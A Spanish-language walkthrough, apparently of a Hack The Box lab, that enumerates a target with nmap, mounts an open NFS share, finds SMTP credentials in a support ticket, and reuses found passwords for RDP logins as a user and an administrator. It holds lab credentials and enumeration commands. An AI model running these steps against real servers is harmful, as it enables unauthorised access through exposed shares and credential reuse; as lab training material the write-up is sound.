 **Este segundo servidor es un servidor al que todos los usuarios de la red interna tienen acceso. En nuestra conversación con nuestro cliente, señalamos que estos servidores suelen ser uno de los principales objetivos de los atacantes y que este servidor debería añadirse al alcance.**

**Nuestro cliente aceptó y añadió este servidor a nuestro alcance. En este caso, el objetivo también sigue siendo el mismo. Necesitamos obtener la mayor cantidad de información posible sobre este servidor y encontrar maneras de usarla contra él. Para la prueba y la protección de los datos del cliente, se ha creado un usuario llamado HTB. Por consiguiente, necesitamos obtener las credenciales de este usuario como prueba.**


--------------

***Resolución:***

Numerando con nmap, observo:
```
nmap -sSCV -Pn -n --open --min-rate 2000 10.129.202.41
```

Observo:

- Puerto 111 corriendo rpcbind.

Ejecuto:
```
showmount -e 10.129.202.41
Export list for 10.129.202.41:
/TechSupport (everyone)
```

Y veo que está el Recurso TechSupport compartido.

Me creo un directorio donde alojar dicho recurso:
```
mkdir target-NFS
```

Y lo monto en dicha carpeta:
```
sudo mount -t nfs 10.129.202.41:/ ./target-NFS/ -o nolock
```

Accedo a dicha carpeta como root y veo un conjunto de tickets.

Con "ls -l" veo que solo uno de ellos tiene un tamaño de bytes +0, pues, le hago un cat a ese concreto con:
```
cat ticket4238791283782.txt
```

Y me devuelve:
```
└──╼ #cat ticket4238791283782.txt
Conversation with InlaneFreight Ltd
Started on November 10, 2021 at 01:27 PM London time GMT (GMT+0200)
---
01:27 PM | Operator: Hello,. 
 
So what brings you here today?
01:27 PM | alex: hello
01:27 PM | Operator: Hey alex!
01:27 PM | Operator: What do you need help with?
01:36 PM | alex: I run into an issue with the web config file on the system for the smtp server. do you mind to take a look at the config?
01:38 PM | Operator: Of course
01:42 PM | alex: here it is:

 1smtp {
 2    host=smtp.web.dev.inlanefreight.htb
 3    #port=25
 4    ssl=true
 5    user="alex"
 6    password="lol123!mD"
 7    from="alex.g@web.dev.inlanefreight.htb"
 8}
 9
10securesocial {
11    
12    onLoginGoTo=/
13    onLogoutGoTo=/login
14    ssl=false
15    
16    userpass {      
17    	withUserNameSupport=false
18    	sendWelcomeEmail=true
19    	enableGravatarSupport=true
20    	signupSkipLogin=true
21    	tokenDuration=60
22    	tokenDeleteInterval=5
23    	minimumPasswordLength=8
24    	enableTokenJob=true
25    	hasher=bcrypt
26	}
27
28     cookie {
29     #       name=id
30     #       path=/login
31     #       domain="10.129.2.59:9500"
32            httpOnly=true
33            makeTransient=false
34            absoluteTimeoutInMinutes=1440
35            idleTimeoutInMinutes=1440
36    } 
```

Destacando:

```
 1smtp {
 2    host=smtp.web.dev.inlanefreight.htb
 3    #port=25
 4    ssl=true
 5    user="alex"
 6    password="lol123!mD"
 7    from="alex.g@web.dev.inlanefreight.htb"
 ```
`xfreerdp /v:10.129.202.41 /u:alex /p:'lol123!mD'`

Buscando por los archivos de su ordenador, veo en la ruta "C:\Users\alex\devshare"

La contraseña:
"sa:87N1ns@slls83"

Me conecto al RDP del administrador con:
```
xfreerdp /v:10.129.202.41 /u:Administrat /p:’87N1ns@slls83'
```

Abro en dicho windows el programa "Microsoft SQL Server Management Studio" y encuentro:
![[Pasted image 20250820180416.png]]
